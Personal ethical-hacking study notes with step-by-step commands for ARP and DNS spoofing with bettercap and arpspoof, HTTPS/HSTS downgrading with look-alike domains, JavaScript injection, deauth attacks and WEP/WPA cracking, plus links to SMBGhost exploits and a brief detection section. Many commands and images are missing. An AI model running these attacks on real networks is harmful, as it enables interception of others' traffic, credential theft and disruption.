ifconfig \<interface\> down

ifconfig \<interface\> hw ether \<spoofed MAC addr\>

ifconfig \<interface\> up

**Example**:

ifconfig eth0 down

ifconfig eth0 hw ether 00:11:22:33:44:55

ifconfig eth0 up

*Then run ifconfig to verify changes*

*Note: MAC address changes back to original one after a restart – this
is only a temporary change.*

*Note: “ether” is used to refer to MAC address in ifconfig*

After…

#### Changing your local ip address

**Format**: ifconfig \<interface\> \<ip\>

**Example**: ifconfig eth0 192.168.181.115

#### Changing your Netmask and Broadacast address

**Format**: ifconfig \<interface\> \<ip\> netmask \<mask\> broadcast
\<broadcast addr\>

**Example**: ifconfig eth0 \<192.168.181.115\> netmask 255.255.0.0
broadcast 192.168.1.255

#### Acquiring an DHCP-assigned ip (kali/debian-based)

**Format**: dhclient \<interface\>

**Example**: dhclient eth0

*Then run ifconfig to verify changes*

This action performs a DHCPDISOVER request to the DHCP server and the
DHCP sever esponds with an DHCPOFFER supplying the specified interface
with a local ip, netmask, and broadcast addres.

### Router attacks

#### Routersploit

Clone repo here and read instructions:

<https://github.com/threat9/routersploit>

Once running (the rsf.py file) you can run search scanners to see
available scanners.

Then run a scanner with the use command

**Searching modules**: search scanners

**Usage**: use /scanners/autopwn

**See options**: show options

**Set options**: set target 192.168.1.1

**Run:** run

### Man-in-the-middle attacks (like spoofing)

A **man-in-the-middle attack**, is an attack that places the attacker in
the middle of two hosts that think they're communicating directly with
each other. It's clearly a name that needs some updating, men aren't the
only hackers out there. The attack will monitor the information going to
and from these hosts, and potentially modify it in transit. A common
man-in-the-middle attack is a session hijacking or cookie hijacking.
Let's say you log into a website and forget to log out. Now, you've
already authenticated yourself to the website and generated a session
token that grants you access to that website. If someone was performing
a session hijacking, they could steal that token and impersonate you on
the website, and no one wants that. This is another reason to think
about the CIA's of security, you always want to make sure that the data
that you are sending or receiving has integrity and isn't being tampered
with. Another way a man-in-the-middle attack can be established is a
rogue access point attack.

*Summary*

A man-in-the-middle attack (MITM) is an attack where the attacker
secretly relays and possibly alters the communications between two
parties who believe they are directly communicating with each other. One
example of a MITM attack is active eavesdropping, in which the attacker
makes independent connections with the victims and relays messages
between them to make them believe they are talking directly to each
other over a private connection, when in fact the entire conversation is
controlled by the attacker. The attacker must be able to intercept all
relevant messages passing between them.

### IP Spoofing

- An **<u>on-path attack</u>** is an attack where the malicious actor
  places themselves in the middle of an authorized connection and
  intercepts or alters the data in transit. On-path attackers gain
  access to the network and put themselves between two devices, like a
  web browser and a web server. Then they sniff the packet information
  to learn the IP and MAC addresses to devices that are communicating
  with each other. After they have this information, they can pretend to
  be either of these devices.

- Another type of attack is a **<u>replay attack</u>**. A replay attack
  is a network attack performed when a malicious actor intercepts a data
  packet in transit and delays it or repeats it at another time. A
  delayed packet can cause connection issues between target computers,
  or a malicious actor may take a network transmission that was sent by
  an authorized user and repeat it at a later time to impersonate the
  authorized user.

- A **<u>smurf attack</u>** is a combination of a DDoS attack and an IP
  spoofing attack. The attacker sniffs an authorized user's IP address
  and floods it with packets. This overwhelms the target computer and
  can bring down a server or the entire network.

#### On-path attack

An **on-path attack** happens when a hacker intercepts the communication
between two devices or servers that have a trusted relationship. The
transmission between these two trusted network devices could contain
valuable information like usernames and passwords that the malicious
actor can collect. An on-path attack is sometimes referred to as a
**meddler-in-the middle attack** because the hacker is hiding in the
middle of communications between two trusted parties.

Or, it could be that the intercepted transmission contains a DNS system
look-up. You’ll recall from an earlier video that a DNS server
translates website domain names into IP addresses. If a malicious actor
intercepts a transmission containing a DNS lookup, they could spoof the
DNS response from the server and redirect a domain name to a different
IP address, perhaps one that contains malicious code or other threats.
The most important way to protect against an on-path attack is to
encrypt your data in transit, e.g. using TLS.

#### Smurf attack

A **smurf attack** is a network attack that is performed when an
attacker sniffs an authorized user’s IP address and floods it with
packets. Once the spoofed packet reaches the broadcast address, it is
sent to all of the devices and servers on the network. 

In a smurf attack, IP spoofing is combined with another denial of
service (DoS) technique to flood the network with unwanted traffic. For
example, the spoofed packet could include an Internet Control Message
Protocol (ICMP) ping. As you learned earlier, ICMP is used to
troubleshoot a network. But if too many ICMP messages are transmitted,
the ICMP echo responses overwhelm the servers on the network and they
shut down. This creates a denial of service and can bring an
organization’s operations to a halt.

An important way to protect against a smurf attack is to use an advanced
firewall that can monitor any unusual traffic on the network. Most next
generation firewalls (NGFW) include features that detect network
anomalies to ensure that oversized broadcasts are detected before they
have a chance to bring down the network.

#### DoS attack

As you’ve learned, once the malicious actor has sniffed the network
traffic, they can impersonate an authorized user. A **Denial of Service
attack** is a class of attacks where the attacker prevents the
compromised system from performing legitimate activity or responding to
legitimate traffic. Unlike IP spoofing, however, the attacker will not
receive a response from the targeted host. Everything about the data
packet is authorized including the IP address in the header of the
packet. In IP spoofing attacks, the malicious actor uses IP packets
containing fake IP addresses. The attackers keep sending IP packets
containing fake IP addresses until the network server crashes.

**Pro Tip**: Remember the principle of defense-in-depth. There isn’t one
perfect strategy for stopping each kind of attack. You can layer your
defense by using multiple strategies. In this case, using industry
standard encryption will strengthen your security and help you defend
from DoS attacks on more than one level. 

### ARP Spoofing

#### ARP Spoofing with Ettercap (gui)

**Install:** sudo apt install ettercap

Make sure you have port-forwarding enabled first.

sudo sysctl -w net.ipv4.ip_forward=1

or… (run as root)

echo 1 \> /proc/sys/net/ipv4/ip_forward

#### ARP Spoofing with bettercap

<https://www.youtube.com/watch?v=UvRXJZVMxaI>

Might have to install bettercap first on kali

sudo apt install bettercap

##### Create spoofing script (caplet) \[preferred\]

This single script runs all commands below (steps 1-5) – just plug in
the proper ips/macs

net.probe on

net.recon on

set arp.spopof.fullduplex true

set arp.spoof.targets \<target ip/mac\>

arp.spoof on

net.sniff on

Save as a file “spoof.cap” for example. (must be saved ending in “cap”)

Then start bettercap with this script:

bettercap -iface \<interface\> -caplet spoof.cap

##### 1. Start bettercap



<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/14600706#announcements>

##### 2. Help menu and probing for devices

Run ‘help’ at any time to all/running modules.

To get information on a module type “help” and the module name.

Example: help arp.spoof

**Net probe**

The net probe command is useful for finding other devices on your LAN.
It includes their IP and MAC (just like discover).

Net probe starts net.recon and net.recon allows you to enter the
net.show command which gives a nice formatted list

##### 3. Spoofing with bettercap

Enable the fullduplex parameter:

set arp.spoof.fullduplex true

Set targets to spoof with targets parameter

set arp.spoof.targets \<Ips or MACs\>

Start spoofing

arp.spoof on

##### 4. Capturing traffic with bettercap

Use the **net.sniff** module.

net.sniff on

s

##### Using bettercap web ui

Once bettercap is started, you can install the web UI with ui.update

Then you can start the web UI with http-ui.

You will be presented with a login screen in stdout localhost:8080

**Default creds:**

User: user

Pass: pass

More here: <https://www.bettercap.org/usage/webui/>

You can also start bettercap web ui directly from terminal with

sudo bettercap -caplet http-ui

##### Bypassing HTTPS

We can only sniff data that’s in plain text – that’s where https becomes
a problem.

Bettercap has a caplet that downgrades requests from https to http to
sort that.,

Enabling local sniffing

Add set **net.sniff.local true** – this tells bettercap to sniff all
data – even local data (meaning – even the traffic from your attackbox).
We want to sniff this since we will be downgrading to http on our
attackbox and this is where we would sniff the plain text data.

If we’re using a spoofing script, the new script should looks like this:

net.probe on

net.recon on

set arp.spoof.fullduplex true

set arp.spoof.targets \<target ip/mac\>

arp.spoof on

set net.sniff.local true

net.sniff on

add the following to output captured traffic to a file

set net.sniff.output mycapture.cap

Enable HTTPS downgrade caplet

Start bettercap without spoof script

Show all caplets with caplets.show (may need to run caplets.update
first)

Load a caplet by typing the caplet name – we want **hstshijack** caplet

Then run bettercap with the script

Now as users make requests – they will be given HTTP sities and you can
see the data

Note: You can start a bettercap sessions with more than one caplet



##### Bypassing HSTS

**Edit the hstshijack caplet**

nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap

Things you would want to replace are the targets and the replacements

**Targets** and **replacements** Should look like this…

set hstshijack.targets
twitter.com,\*.twitter.com,facebook.com,\*.facebook.com,instagram.com,\*.instagram.com,google.com,\*.google.com,
gstatic.com, \*.gstatic.com

set hstshijack.replacements
twiter.com,\*.twiter.com,facebook.corn,\*.facebook.corn,instagam.com,\*.instagam.com,google.corn,\*.google.corn,gstatic.corn,\*.gstatic.corn

**dns.spoof.domains**

set dns.spoof.domains
twiter.com,\*.twiter.com,facebook.corn,\*.facebook.corn,instagam.com,\*.instagam.com,google.corn,\*.google.corn,gstatic.corn,\*.gstatic.corn

##### Injecting javascript code into response

Open/edit hstshijack file

nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap

Add a new payload

- **Form:** \<domains\>:\<path_to_js\>

- **Form:** mysite.com:mypayload.js

- “\*” – means every domain. Can be replaced with actual domain names.



##### Caplets and bettercap

Caplets are saved in **/usr/local/share/bettercap/caplets**

#### ARP spoofing/poisoning using arpspoof

With ARP spoofing we can perform a MIM attack with two spoofs.

- **Intercept outgoing traffic from a victim**

  - Spoof our MAC address to make the victim think we (hacker) are the
    router.

  - Receive packets and copy to ourselves for inspection.

  - Pass original packets on to actual router.

- **Intercept ingoing traffic from a victim**

  - Spoof our MAC address to make the router think we (hacker) are the
    victim.

  - Receive packets and copy to ourselves for inspection.

  - Pass original packets on to victim.

##### Step 1: Scan for MAC addresses on the LAN

- Install dsniff (on hacking machine)

  - sudo apt update && sudo apt install dsniff -y

- scan for MACs on the LAN

  - sudo netdiscover

  - *Install netdiscover if needed*

- *(optional) view current arp table on router/victim machines (if
  you’re testing) – see which MAC is saved*

  - sudo arp -a

##### Step 2: Enable port-forwarding (on hacking machine)

**Check if ip forwarding is enabled**

sysctl net.ipv4.ip_forward

or

cat /proc/sys/net/ipv4/ip_forward

**Enable ip forwarding**

sysctl -w net.ipv4.ip_forward=1

echo 1 \> /proc/sys/net/ipv4/ip_forward

**Disable ip forwarding**

sysctl -w net.ipv4.ip_forward=0

or…

echo 0 \> /proc/sys/net/ipv4/ip_forward

##### Step 3: Spoof!

**Preliminary**: make sure step 1 was folllwed and dsniff was installed

sudo apt update && sudo apt install dsniff -y

**Syntax**: arpspoof -i \<interface\> -t \<target_ip\> \<ip_we’re
spoofing\>

**Spoof the router** (trick victim into thinking we’re the router)

arpspoof -i \<interface\> -t \<victim_ip\> \<default_gateway\>

**Spoof the victim** (trick router into thinking we’re the victim)

arpspoof -i \<interface\> -t \<default_gateway\> \<victim_ip\>

***Note***: these two commands cause the terminal to hang so best to
runs as a job or use multiple terminals.

**Using wireshark in hacking machine**

Right-click \> Follow \> TCP stream to see request/response body

##### Step4: Capturing Images with driftnet

To see the images from websites that our victim visits, you need to use
driftnet. Driftnet is a program which listens to network traffic and
picks out images from TCP streams it observes. Fun to run on a host
which sees lots of web traffic. The strucure of the command to start
driftnet and see the images that the user see on the websites is the
following:

driftnet -i \[Network Interface Name\]

Example:

driftnet -i wlan0

##### Step4: Capturing URLs with URLsnarf

**View the urls the victim is requesting**

urlsnarf -i \<interface\>

**View packets in wireshark or using tcpdump (in hacking machine)**

**Capture all traffic from all ports**

**tcpdump**

**Capture tcp traffic**

tcpdump tcp port 443

*more options…*

tcpdump -i \<interface\> -s \<num_of_packets\> tcp port 443 -w
capture.pcap

*when*

nohup tcpdump -i \<interface\> tcp port 443 -w capture.pcap \> /dev/null
&

**Final Steps:**

- Disable port-fowarding once done

- Allow arpspoof commands to gently terminate (ctrl+c) so that arp
  spoofing is stopped and victim machines are left as they were.

#### ARP Spoofing with Scapy

<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22286616#overview>

Run scapy with scapy – once inside a scapy session…

- ls(Ether) – List ethernet into

- Save broadcast variable

  - 

- Prepare new ARP packet

  - 

  - 

  - ^ send it broadcast address.

- Send ARP request to

  - 

- sss

- Get MAC

  - 

  - 

#### ARP Spoofing with websploit

<https://null-byte.wonderhowto.com/forum/do-mitm-attack-with-websploit-0180442/>

#### Mitigation \[BLUE TEAM\]

**Detection**

- Create an arpspoof detector script:
  <https://github.com/bobby-valenzuela/ARPSpoofDetector>

- Use XARP to detect spoofing attacks: <https://xarp.en.softonic.com/>

- Use wireshark:
  <https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/5334776#content>

  - Edit \> Preferences \> protocols \> ARP \> tick “Detect ARP request
    storms”

  - This checks if any local hosts are trying to send arp requests to
    every known host on a network.

**Prevention**

- Encrypt your traffic

- Use a VPN

- Use a HTTPs everywhere browser extension/plugin

  - Works only for HTTPs sites – enforces HTTPs. Doesn’t work for
    HTTP-only sites.

### DNS Spoofing

1.  Start a typical arpspoof attack with better cap

    1.  Bettercap -iface \<interface\> -caplet \<spoof_caplet\>.

2.  Set where users should be redirected

    1.  set dns.spoof.address \<malicious_site\>

3.  Enable for all DNS requests

    1.  set dns.spoof.all true

4.  Specify the domains you want to spoof (comma-separated – accepts
    globbing)

    1.  set dns.spoof.domains \<example.com, \*.example.com\>

5.  Start the dns spoof

    1.  dns.spoof on

### DNS Cache Poisoning attack.

**DNS Cache Poisoning attack.** You probably remember from the bits and
bytes of computer networking course, that DNS works by getting
information about IP addresses and names to make it easier for you to
find a website. A DNS Cache Poisoning attack works by tricking a DNS
server into accepting a fake DNS record that will point you to a
compromised DNS server. It then feeds you fake DNS addresses when you
try to access legitimate websites. Not only that, DNS Cache Poisoning
can spread to other networks too. If other DNS servers are getting their
DNS information from a compromised server, they'll serve those bad DNS
entries to other hosts. Several years ago, there was a large scale DNS
Cache Poisoning attack in Brazil. It appeared that attackers managed to
poison the DNS cache of some local ISPs, by inserting fake DNS records
for various popular websites like Google, Gmail, or Hotmail. When
someone attempted to visit one of those sites, they were served a fake
DNS record and were sent to a server that the attacker controlled, which
hosted a small java applet. The user would then be tricked into
installing the applet, which was actually a malicious banking trojan
designed to steal banking credentials. This is an example of the real
world damage DNS Cache Poisoning attacks can pose. You can learn more
about it in the next supplementary reading.

### Evil twin attack

A method we will cover is called an evil twin. It's similar to the rogue
AP example but has a small but important difference. The premise of an
evil twin attack is for you to connect to a network that is identical to
yours. This identical network is our networks evil twin and is
controlled by our attacker. Once we connect to it, they will be able to
monitor our traffic.

### WAP Honeypot (Rogue access point attack)

A rogue AP is an access point that is installed on the network without
the network administrator's knowledge. Sometimes, in corporate
environments, someone may plug a router into their corporate network to
create a simple wireless network. Innocent enough, right? Wrong. This
can actually be pretty dangerous, and could grant unauthorized access to
an authorized secure network. Instead of an attacker having to gain
access to a network by plugging directly into a network port, they can
just stand outside the building and hop onto this wireless network.

<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/5834138#content>

1.  **Setup WIfi Interface**. Make sure you a wireless adapter that
    accepts AP mode and this can act as your wireless interface
    (iwconfig). This NIC will be your AP and this should be a separate
    NIC from the NIC you are using for internet access.

    1.  Do not use this wireless adapter to connect to a AP – this NIC
        will itself be an AP.

2.  Download/Run the **WifiHotspot** program.

    1.  <https://github.com/lakinduakash/linux-wifi-hotspot>

3.  Point your capture tool (wireshark or what have you) at the
    interface broadcasting the signal (the one in step 1).

**More on point#1: Adding your external NIC to virtualbox**

1.  Plug in your external NIC and make sure it appears under your list
    of NICs

    1.  

2.  Add your external NIC to virtualbox-recognized list of adapters

    1.  Go to Control Panel -\> Network & Sharing Center -\> Change
        adapter Settings

    2.  Right click on your network adapter and pick "properties"

    3.  In the "connection uses the following items" box, at the bottom,
        click the Install button and select "Service" from the list and
        click the Add button.

        1.  

        2.  

    4.  A list of existing services will pop up. you want to choose the
        "have disk "option.

        1.  

    5.  Once you have chosen the Have Disk option you will navigate to
        C:\Program Files\Oracle\VirtualBox\drivers\network and pick the
        "netlwf" item and add it as a service.

        1.  

        2.  

    6.  Close out of Virtual box if you haven't already, and re-open it.
        Now the adapter will be in the Network Adapter list for the
        Bridged Adapter field.

        1.  Note the name will show in VirtualBox as the name in grey
            (device description)

            1.  

            2.  

3.  s

### Denial-of-service

A Denial-of-Service, or DoS attack, is an attack that tries to prevent
access 

to a service for legitimate users by overwhelming the network or
server. 

- **The Ping of Death or POD**, is a pretty simple example of an (ICMP)
  DoS attack. It works by sending a malformed ping to a computer. The
  ping would be larger in size than what the internet protocol was made
  to handle. So it results in a buffer overflow. This can cause the
  system to crash and potentially allow the execution of malicious code.

- Another example is a **ping flood**, which sends tons of ping packets
  to a system. More specifically, it sends ICMP echo requests, since a
  ping expects an equal number of ICMP echo replies. If a computer can't
  keep up with this, then it's prone to being overwhelmed and taken
  down.

- Similar to a ping flood is a **SYN flood**. Remember that to make a
  TCP connection, a client sends a SYN packet to a server it wants to
  connect to. Next, the server sends back a SYN-ACK message, then the
  client sends in ack message. In a SYN flood, the server is being
  bombarded with the SYN packets. The server is sending back SYN-ACK
  packets but the attacker is not sending ack messages. This means that
  the connection stays open and is taking up the server's resources.
  Other users will be unable to connect to the server which is a big
  problem. Since the TCP connection is half-open, we also refer to SYN
  floods as half-open attacks, sounds messy, right? It is, the DoS
  attacks we've learned about so far only use a single machine to carry
  out an attack. But what if attackers could utilize multiple machines?
  A much scarier scenario, they'd be able to take down services in
  greater volumes and even quicker rates. Even scarier, attackers can
  absolutely do that.

- **<u>A DoS attack using multiple systems, is called a distributed
  denial-of-service attack or DDoS</u>**. DDoS attacks need a large
  volume of systems to carry out an attack and they're usually helped by
  botnet attackers. In that scenario, they can gain access to large
  volumes of machines to perform an attack. In October of 2016, a DDoS
  attack occurred the DNS service provider, Dyn was a target of a DDoS.
  Fake DNS look up requests along with SYN floods that botnets to
  performing overloaded their system. Dyn handled the DNS for major
  website like Reddit, GitHub, Twitter, etc. So once that went down, it
  also took down its customers, making those services inaccessible.
  Don't get between people on the Reddit threads or Twitter feeds, I
  know from experience, it's not pretty.

### WAP Password capture and cracking

#### \[STEP1\] WLAN access point scanning (monitor mode enabling)

##### Using ip link

- Check status

  - ip a

- Disable wireless interface

  - sudo ip link set dev wlp3s0 down

- Enable monitor mode

  - sudo iwconfig wlp3s0 mode monitor

- Verify mode

  - iwconfig

- Change back ro managed mode (optional)

  - sudo iwconfig wlp3s0 mode managed

  - sudo ip link set dev wlp3s0 up

##### Using ip command

##### Using iwconfig 

This lists all details about wireless interfaces only

Managed mode means we are only detecting information directed at this
machine – at the MAC address for our device.

^ “check kill” kills any processes that may conficlit.

##### Using iwlist 

##### Using airmon-ng 

<https://www.youtube.com/watch?v=wiIoR_0epvs>

Pre-installed in kali.

^ Follow the above first – i.e. make sure to disable interface and kill
any associated processes.

“check kill” kills any processes that may conficlit.

#### \[STEP2\] Network Sniffing (Collect Wireless traffic info /cap files – packet analysis)

##### \[OPTION 1\] airodump (preferred)

1.  **Enable monitor mode**

    1.  Verify this with iwconfig

>  alt="Text Description automatically generated" />

2.  **^** Notice that this shows the Frequency being scanned (2.4 in
    this case\_ which depends on your wireless adapter).

<!-- -->

2.  **Run *airodump-ng* on interface in monitor mode**

>  alt="Text Description automatically generated" />

1.  Understanding output

>  alt="Calendar Description automatically generated" />

1.  **BSSID**: MAC address of access point

2.  **ESSID**: Name on access point

3.  **PWR**: Signal strength (largest number is best)

<!-- -->

3.  Begin scan

You can do a scan on single specific BSSID (router MAC) as well:

Write dump contents to a file like so:

###### airodump - scanning for 5G access points

If you have a 5G capable wireless adaptor but you aren’t seeing 5G
connections, enable this by enabling band “a” when running you r scan:

^ Replace “mon0” with the name of your monitor-mode-enabled wireless
interface.

You can also search on multiple bands (channels) – a bit slower:

###### airodump - targeted Sniffing

Sniffing a specific access point

**Format:** airodump-ng –bssid \<bssid\> --channel \<channel\> --write
\<file to write results\> \<interface\>

##### \[OPTION 2\] tcpdump

**Scan any ports**

sudo tcpdump -i eth0 &

**Scan a specific port**

sudo tcpdump -i eth0 port 80

**Scan by port and capture**

sudo tcpdump -i eth0 port 80 -w http.pcap &

**Read a pcap file**

tcpdump -r http.pcap -nv

Note that we don't need to use sudo to read packets from a file. Also
note that tcpdump writes full packets to the file, not just the
text-based analysis that it prints to the screen when it's operating
normally. For example, somewhere in the output you should see the html
that was returned as the body of the original query in the terminal.

Also tcp replay

#### \[STEP 2.5\] Deauth Attack/ Cracking Access Point

- Pretend to be client

  - Change mac address to client

- As client, request to disconnect from router

- Pretend to be router

  - Change mac address to routers

- As router, validate request for client to disconnect

- --deauth \<number of packtets\>

  - Send lots so the client stays disconnected until we stop deauth-ing
    ourselves with ctrl+c

- -a \<access point\>

  - MAC address of access point (bssid)

- -c \<client\>

  - MAC address of client

- \<interface\>

There’s a higher chance of this working while one is also scanning the
network in question with airodump specifying the relevant bssid (multi
tabs work best for this):

aireplay-ng –deauth \<DEAUTH_PKTS\> -a \<WAP_MAC\> -c \<TRGT_MAC\>
\<interface\>

^ we’re setting the number of deauth packets really high just to keep
the client disconnected. You could set it to for a quick
disconnect/reconnect.

Another approach using dictionary:

**<u>Non-targeted deauth attack</u>**

Instead of specifying the client you want to deauth, you can deauth all
devices on a network with this:

#### \[STEP 3\] Cracking WEP (aircrack-ng)

Uses RC4 algorithm. WEP sends **IV**s over to access point which are
random bits of chars mixed with the key. If we have enough IVs, we can
figure out the key.

*Preliminary: Run a scan and decide which WAP you want to target (gather
channel and BSSID)*

##### Step 1: Build capture file \[Terminal 1\]

Run airodump on target AP and write to a file:

*Take note of the ‘Data’ field, the larger this number is the greater
the chance we have to crack a WEP pw. This adds more information into
our .cap file.*

Allow this to continue running in a terminal session…

##### Step 2: packet injection \[Terminal 2/3\]

Not required per se, but standard for best results.

This is achieved by packet-injection, we send more packets to the BSSID.

***<u>Preliminary step (step 1/terminal 1)</u>***: **Track Data**. Start
up an airodump – save into a file (keep running)

We’re keeping an eye on the ‘**AUTH**’ field as well as this should
change to ‘**OPEN**’ once we associate with that AP.

**Sub stepsx\`**

- **<u>Step A \[Terminal 2\]</u>:** **Get association details.** Grab
  MAC of your wireless adapter (using ‘h’ flag)

  - Ifconfig \> interface in mon mode. Note the ‘unspec’ property and
    it’s first 12 digits. Replace hyphens with colons.

  - 

- **<u>Step B \[Terminal 3\]</u>** : **Associate with AP.** Run aireplay
  with fakeauth arg, with access point MAC (‘-a’), our wireless adapter
  MAC (-h) flag (hardware) and lastly the interface in use.

  - 

  - –fakeauth arg accepts number of times to run. ‘0’ means infinite
    attempts.

  - 

  - *Note: Not uncommon to associate multiple times throughout process.*

  - *Note: The mac of interface in monitor mode can be acquired from
    ifconfig – replacing the colons with hyphens.*

- **<u>Step C \[Terminal 3\]</u>** : **Action a request replay attack
  (packet injection)**. There are other methods, but this is most
  reliable and fruitful.

  - *The idea here…*

    - Wait for an SRP packet

    - Capture it and replay it (causes AP to produce another packet)

    - Repeat until we have enough IVs to crack the key.

  - Replace ‘fakeauth’ aith ‘arpreplay’ – remove any args fir this flag

  - Replace ‘a’ flag with ‘b’ (access point -\> bssid)

  - Cmd: aireplay-ng –arpreplay -b \<AP_bssid\> -h \<wlan_mac\>
    \<interface\>

  - Example: aireplay-ng –arpreplay -b 64:16:F0:EC:7B:F3 -h
    48:5D:60:2A:45:25 mon0

  - 

  - Once you receive some ARP packets (see pic below) move on to next
    step.

  - 

##### Step 3: run aircrack-ng on the pcap file \[Terminal 4\]

*Note: you can also re-use the second terminal if you don’t want to keep
terminal 2 open with your hardware info of your wireless adapter.*

- Throughout this process, your first command is still running airodump
  and saving traffic into a .cap file ending with the filename
  “-01.cap”. Time to run aircrack on that file.

- 

- This may take multiple attempts.

- 

- ^ That failed attempt cites “14786” IVs, that number should match the
  ‘DATA’ field in the airodump running in terminal 1. As long as you
  don’t exit with ctrl+c the aircrack should running again when more IVs
  are available. Attempts are actioned every 5000 IVs (initialization
  vectors). Cracking usually occurs between 15k – 25k IVs.

- Success:

  - 

*Alternative: Using a word list*

**Plain-text Password**: Next to “KEY FOUND…ASCII” (**As23p** in this
example below)

**NumericalPW (KEY)**: Number after “KEY FOUND” minus delimeter
(**4173323370** in this case)

#### \[STEP 2\] Cracking WPA/WPA2

##### With WPS enabled

###### Step 1: List Aps with WPS enabled

Use **wash** command to list any access points with WPS enabled:

^ Instead of mon0, list whatever interface you have in monitor mode.

###### Step 2: Use reaver to attempt to brute

^ adding the “no-associate” arg as although reaver can associate on its
own, best results involve associating manually which we are going to do
next.

###### Step 3: Associate with AP using fakeauth

While reaver (above) is running

- **Associate with AP.** Run aireplay with fakeauth arg, with access
  point MAC (‘-a’), our wireless adapter MAC (-h) flag (hardware) and
  lastly the interface in use.

  - 

  - –fakeauth arg accepts number of times to run. ‘0’ means infinite
    attempts.

  - 

  - *Note: Not uncommon to associate multiple times throughout process.*

  - *Note: The mac of interface in monitor mode can be acquired from
    ifconfig – replacing the colons with hyphens.*

##### Without WPS Enabled

WPA/WPA2 fixed all issues with WEP.

Only useful packets for password grabbing are the four “handshake”
packets.

###### Step 1: Build capture file \[Terminal 1\]

Run airodump on target AP and write to a file:

*Prob change the output filename from “basic_wep” to something like
“wpa_handshake”.*

Allow this to continue running in a terminal session…

Next we have to wait for the client to connect/reconnect to the WAP oor
we can perform a deauth attack to speed this up (see next).

###### Step 2: Initiate deauth attack \[Terminal 2\]

aireplay-ng –deauth \<DEAUTH_PKTS\> -a \<WAP_MAC\> -c \<TRGT_MAC\>
\<interface\>

Number of packets should be low – something like 4 or 5 so the client
quickly disconnects and reconnects.

Keep an eye on the top right side of terminal 1 for a message indicating
the handshake was acquired

After a couple secs…

Now we can stop airodump from running on terminal 1.

###### Step 3: Perform wordlist attack



Each word in wordlist combines with other info (circled) produces a MIC
(message integrity code) and of the MIC matches what we see in the
handshake – then we know we have a valid password.

**Using aircrack-ng and a wordlist**

*Form*

aircrack-ng \<capture_file\> -w \<wordlist\>

*Example:*

aircrack-ng wpa_handshakes.cap -w wordlist.txt

### Windows-Specific Vulnerabilities

#### SMBGhost \[CVE 2020-0796 – Windows 10\]

**Vulnerability scanner:**

<https://github.com/ButrintKomoni/cve-2020-0796>

**Crash machine with overflow:**

<https://github.com/jiansiting/CVE-2020-0796>

**Shell exploit:**

<https://github.com/jamf/CVE-2020-0796-RCE-POC>

Tut:
